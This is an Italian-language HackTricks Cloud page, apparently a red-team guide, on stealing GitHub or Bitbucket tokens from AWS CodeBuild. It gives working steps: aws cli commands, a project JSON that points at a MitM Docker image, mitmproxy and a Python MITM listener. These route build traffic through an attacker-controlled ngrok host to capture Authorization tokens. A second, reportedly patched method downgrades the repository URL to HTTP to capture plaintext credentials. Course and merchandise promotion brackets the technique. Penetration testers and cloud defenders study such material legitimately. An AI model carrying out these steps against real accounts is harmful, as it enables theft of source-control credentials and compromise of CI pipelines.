 # AWS Codebuild - Perdita di Token

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Recupera i Token Configurati per Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali di origine configurate che potresti perdere:
```bash
aws codebuild list-source-credentials
```
### Attraverso l'immagine Docker

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine Docker specifica** per eseguire la build del progetto.

A questo scopo potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno già esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Si tratta di un'immagine Docker molto basilare che imposterà le **variabili d'ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Questo ti permetterà di intercettare la maggior parte del traffico dell'host indicato in **`https_proxy`** e **`http_proxy`** e di fidarti del CERT SSL indicato in **`SSL_CERT_FILE`**.

1. **Crea e Carica la tua immagine Docker MitM**
* Segui le istruzioni del repository per impostare il tuo indirizzo IP proxy e impostare il tuo certificato SSL e **crea l'immagine Docker**.
* **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
* Potresti utilizzare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
* Una volta che hai creato l'immagine Docker, **caricala in un repository pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
* Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno già esistente.
* Imposta il progetto per utilizzare l'**immagine Docker generata in precedenza**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM sul tuo host**

* Come indicato nel **repository di Github**, potresti utilizzare qualcosa del genere:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La versione di **mitmproxy utilizzata era la 9.0.1**, è stato segnalato che con la versione 10 potrebbe non funzionare.
{% endhint %}

4. **Esegui la build e cattura le credenziali**

* Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche da aws cli con qualcosa del genere

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Attraverso il protocollo HTTP~~

{% hint style="success" %}
**Questa vulnerabilità è stata corretta da AWS in qualche momento della settimana del 20 febbraio 2023 (credo il venerdì). Quindi un attaccante non può più abusarne :)**
{% endhint %}

Un attaccante con **permessi elevati su un CodeBuild potrebbe rivelare il token Github/Bitbucket** configurato o se i permessi fossero configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

* Un attaccante potrebbe aggiungere le variabili d'ambiente **http\_proxy** e **https\_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Successivamente, modificare l'URL del repository github per utilizzare HTTP invece di HTTPS, ad esempio: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Infine, eseguire l'esempio di base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sulla porta indicata dalle variabili di proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, fai clic su **Build the project**, le **credenziali** saranno **inviate in testo normale** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ora un attaccante sarà in grado di utilizzare il token dal suo computer, elencare tutti i privilegi che ha e (ab)usare più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.
{% endhint %}

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
